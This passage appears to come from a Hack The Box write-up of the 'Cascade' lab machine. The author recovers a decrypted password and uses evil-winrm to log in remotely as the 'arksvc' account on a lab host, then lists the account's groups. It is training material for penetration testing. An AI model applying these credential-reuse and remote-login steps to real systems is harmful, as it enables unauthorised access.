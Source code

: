![](../../.gitbook/assets/5-decrypted.png)

After a little bit of work to make the code function as a stand-alone program, it gave me the password `w3lc0meFr31nd`.  _I'm not sure what the undecipherable characters are in the output, but luckily leaving them out did not cause any issues with logging in with this password._

### Moving Laterally to `arksvc`

```text
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u arksvc -p w3lc0meFr31nd -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
```